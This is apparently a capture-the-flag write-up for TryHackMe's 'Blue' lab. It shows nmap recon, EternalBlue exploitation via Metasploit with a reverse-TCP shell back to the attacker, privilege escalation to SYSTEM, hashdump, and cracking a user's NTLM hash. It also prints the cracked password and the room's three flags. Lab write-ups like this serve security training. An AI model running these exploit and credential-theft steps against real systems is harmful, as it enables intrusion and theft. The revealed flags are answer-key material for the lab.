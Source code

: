 # Blue

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Blue](https://tryhackme.com/room/blue)
>
> _Deploy & hack into a Windows machine, leveraging common misconfigurations issues._
>
> <img src=".gitbook/assets/blue.jpg" alt="" data-size="original">

🎯 Target IP: `10.10.177.175`

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

## Exploitation

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

## Privilege Escalation

* Used payload was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

* My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g.` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

## Post Exploitation

### Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for _**no password**_.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

* In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
```

<details>

<summary>Reveal Flag1: 🚩</summary>

`flag{access_the_machine}`

<img src=".gitbook/assets/image-20230316143237356.png" alt="" data-size="original">

</details>

```bash
cd C:/Windows/System32/config
cat flag2.txt
```

<details>

<summary>Reveal Flag2: 🚩</summary>

`flag{sam_database_elevated_access}`

<img src=".gitbook/assets/image-20230316143502259.png" alt="" data-size="original">

</details>

```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
```

<details>

<summary>Reveal Flag3: 🚩</summary>

`flag{admin_documents_can_be_valuable}`

<img src=".gitbook/assets/image-20230316143807868.png" alt="" data-size="original">

</details>

***
